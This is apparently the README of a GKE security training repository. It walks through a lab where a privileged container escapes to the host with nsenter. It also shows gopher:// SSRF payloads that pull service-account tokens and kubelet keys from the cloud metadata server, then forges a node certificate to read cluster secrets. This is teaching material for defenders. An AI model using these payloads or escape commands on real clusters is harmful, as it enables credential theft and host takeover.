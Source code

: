 # training-gke-security
This repository is for training of GKE Security

[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/training-gke-security&page=editor&cloudshell_tutorial=README.md)

### Preparation
- Set project id
```bash
gcloud config set project PROJECT_ID
```

- Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

- Create GKE Cluster
```bash
gcloud container clusters create gke-security-testing --zone us-central1-a --machine-type g1-small --num-nodes 3 --async
```

- Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

- Testing
```
kubectl get node
```

### Demo 1: PodSecurityPolicy
- Run root container
```
kubectl apply -f manifest/root/pod.yaml
```

- Enter root
```
kubectl exec -it root-container -- /bin/sh -c "nsenter --mount=/proc/1/ns/mnt -- /bin/bash"
```

- How to block
  - RBAC
  - exec

### Demo 2: Workload Identity
- Apply k8s manifest
```
kubectl apply -f manifest -R
```
(Please don't expose deployment on the Internet through Service.)

- Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080
```

- Open Web Preview
<img src="img/web-preview.png" width="320">

- Input url (for testing)
```
https://www.google.com
```

- Input malicious url
  - Get instance token (doesn't use it in this training)
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

  - Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

- ctrl+A and store all result to `metadata-script/metadata.txt` file
TODO: ADD image

- store
```bash
cd metadata-script

# Extract necessary data from metadata
bash extract.sh
ls -l metadata

# Get node certificate
bash make_cert.sh $(cat metadata/nodename)

# Set env vars
KUBE_OPT="--client-certificate newcert/node.crt --client-key newcert/new.key --certificate-authority metadata/ca.crt --server https://$(cat metadata/api_ip)"
echo $KUBE_OPT

# Get secretName
kubectl describe pod | grep secret

# Get secret
kubectl get secret dummy-secret -o yaml
```

### (After this training) Clean cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```

## References
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Hacking Kubelet on Google Kubernetes Engine](https://www.4armed.com/blog/hacking-kubelet-on-gke/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)
